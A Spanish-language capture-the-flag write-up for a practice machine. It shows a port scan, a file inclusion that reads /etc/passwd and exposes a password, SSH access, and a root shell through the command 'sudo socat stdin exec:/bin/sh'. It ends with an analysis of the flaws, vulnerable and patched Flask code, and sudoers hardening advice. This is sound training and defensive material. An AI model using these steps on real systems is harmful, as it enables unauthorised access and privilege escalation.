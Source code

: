 # Inclusion
Room sencillita para explotar un LFI

## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e6:3a:2e:37:2b:35:fb:47:ca:90:30:d2:14:1c:6c:50 (RSA)
|   256 73:1d:17:93:80:31:4f:8a:d5:71:cb:ba:70:63:38:04 (ECDSA)
|_  256 d3:52:31:e8:78:1b:a6:84:db:9b:23:86:f0:1f:31:2a (ED25519)
80/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-server-header: Werkzeug/0.16.0 Python/3.6.9
|_http-title: My blog
```
## Enum
### HTTP

Vemos que los articulos se indexan mediante el nombre directo del archivo
```
http://10.10.30.43/article?name=lfiattack
```
Probamos a indexar algún archivo mas sensible como /etc/passwd
```
falconfeast:x:1000:1000:falconfeast,,,:/home/falconfeast:/bin/bash
#falconfeast:rootpassword
```
Usamos esas creds en el ssh y pa dentro

## Privesc
```
User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```
Y simplemente ejecutamos 
```
sudo socat stdin exec:/bin/sh
```
Y listo, ya somos root

# Analisís de la intrusión
### LFI 
El codigo utilizado permite indexar archivos de manera arbitraria 
### Insecure password mangment
Por algun motivo las cred de falconfeast estan en el passwd 
### Privileged socat execution
El usuario falconfeast puede utilizar socat como root, lo cual nos permitio elevar privilegios a root

# Soluciones
### LFI 
Se podría corregir el codigo para evitar la lectura de archivos,asi como tmb seria recomendable limitar el acceso a ciertos archivos a www-data mediante el uso de AppArmor
#### Código
La función culpable es la siguiente
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        template = open('/home/falconfeast/articles/{}'.format(page)).read()
        return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Si hacemos unos pequeños ajustes podemos evitar los principales vectores de ataque LFI sin problema
```python
@app.route('/article', methods=['GET'])
def article():

    if 'name' in request.args:
        page = request.args.get('name')
    else:
        page = 'article'

    try:
        if(("/" in page ) or ("%252e" in page) or ('\\' in page)):
                pass
        else:
                template = open('/home/falconfeast/articles/{}'.format(page)).read()
                return render_template('show.html', data=template)
    except Exception as e:
        template = e

    return render_template('article.html', template=template)
```
Con esto tenemos bastante solucionado 
### Privileged socat execution
Permitir a un usuario regular ejecutar socat como root no parece algo con mucho sentido, la principal opción para mitigar esto seria eliminar este permiso si por algún casual se diese un caso en el que esto fuera necesario lo ideal seria introducir el comando entero en /etc/sudoers limitando bastante la explotación y aun asi lo optimo seria establecer una politica de Seccomp al respecto
